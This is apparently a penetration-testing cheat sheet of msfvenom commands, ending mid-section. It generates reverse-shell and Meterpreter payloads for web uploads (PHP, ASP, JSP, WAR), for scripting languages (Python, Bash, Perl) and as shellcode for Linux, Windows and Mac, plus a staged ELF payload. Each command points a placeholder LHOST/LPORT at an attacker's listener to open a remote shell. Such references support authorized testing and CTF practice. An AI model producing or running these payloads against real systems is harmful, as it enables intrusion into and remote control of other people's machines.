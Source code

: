 <b>PHP:</b>

	msfvenom -p php/meterpreter_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.php]>
	cat <[FILE_NAME.php]> | pbcopy && echo '<?php ' | tr -d '\n' > <[FILE_NAME.php]> && pbpaste >> <[FILE_NAME.php]>

<b>ASP:</b>
	
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f asp > <[FILE_NAME.asp]>

<b>JSP:</b>
	
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.jsp]>

<b>WAR:</b>

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f war > <[FILE_NAME.war]>
	
# Scripting Payloads

<b>Python:</b>

	msfvenom -p cmd/unix/reverse_python LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.py]>

<b>Bash:</b>

	msfvenom -p cmd/unix/reverse_bash LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.sh]>

<b>Perl</b>

	msfvenom -p cmd/unix/reverse_perl LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.pl]>

# Shellcode
For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

<b>Linux Based Shellcode:</b>

	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f <[LANGUAGE]>

<b>Windows Based Shellcode:</b>

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f <[LANGUAGE]>

<b>Mac Based Shellcode:</b>
	
	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f <[LANGUAGE]>

# Staged vs Non-Staged Payloads

<b>Staged payload:</b> (useful for bof) (need multi_handler metasploit in order to works)

	Windows/shell/reverse_tcp
	
	msfvenom -a x86 -p linux/x86/shell/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -b "\x00" -f elf -o <[FILE_NAME_STAGED]>

<b>Non-staged:</b> (ok with netcat listener)
